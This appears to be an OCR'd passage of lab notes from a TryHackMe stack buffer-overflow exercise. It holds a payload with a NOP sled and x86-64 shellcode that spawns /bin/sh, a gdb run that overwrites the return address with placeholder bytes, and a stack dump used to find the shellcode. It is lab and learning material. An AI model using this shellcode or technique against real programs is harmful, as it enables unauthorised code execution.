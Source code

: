 ```
total length = 90 + 40 + 22 + 6 = 158

or can be using tryhackme shellcode which is len 30 so 90 + 30 + 12 + 6 = 158

anyways

>>> payload = '\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + 'B'*6
>>> len(payload)
158


(gdb) run $(python2 -c "print '\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + 'B'*6")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python2 -c "print '\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + 'B'*6")
Here's a program that echo's out your input
������������������������������������������������������������������������������������������j;XH1�I�//bin/shIAPH��RWH��j<XH1�����������������������BBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x0000424242424242 in ?? ()

See where NOP sled string is located, and beginning of shellcode. 

(gdb) x/100x 
Argument required (starting display address).
(gdb) x/100x $rsp-200
0x7fffffffe228: 0x00400450      0x00000000      0xffffe3e0      0x00007fff
0x7fffffffe238: 0x00400561      0x00000000      0xf7dce8c0      0x00007fff
0x7fffffffe248: 0xffffe649      0x00007fff      0x90909090      0x90909090
0x7fffffffe258: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe268: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe278: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe288: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe298: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe2a8: 0x3b6a9090      0xd2314858      0x2f2fb849      0x2f6e6962
0x7fffffffe2b8: 0xc1496873      0x504108e8      0x52e78948      0xe6894857
0x7fffffffe2c8: 0x3c6a050f      0xff314858      0x9090050f      0x90909090
0x7fffffffe2d8: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe2e8: 0x42424242      0x00004242      0xffffe3e8      0x00007fff
0x7fffffffe2f8: 0x00000000      0x00000002      0x004005a0      0x00000000
0x7fffffffe308: 0xf7a4302a      0x00007fff      0x00000000      0x00000000
0x7fffffffe318: 0xffffe3e8      0x00007fff      0x00040000      0x00000002
0x7fffffffe328: 0x00400564      0x00000000      0x00000000      0x00000000
0x7fffffffe338: 0xc3f0b440      0xc6a53754      0x00400450      0x00000000


0x7fffffffe298: 0x3b6a9090  0xd2314858  0x2f2fb849  0x2f6e6962 <--- shellcode

so before this one will be NOP sled final

0x7fffffffe218: 0x00400450  0x00000000  0xffffe3d0  0x00007fff
0x7fffffffe228: 0x00400561  0x00000000  0xf7dce8c0  0x00007fff
0x7fffffffe238: 0xffffe639  0x00007fff  0x90909090  0x90909090 <--- NOP sled
0x7fffffffe248: 0x90909090  0x90909090  0x90909090  0x90909090
0x7fffffffe258: 0x90909090  0x90909090  0x90909090  0x90909090
0x7fffffffe268: 0x90909090  0x90909090  0x90909090  0x90909090
```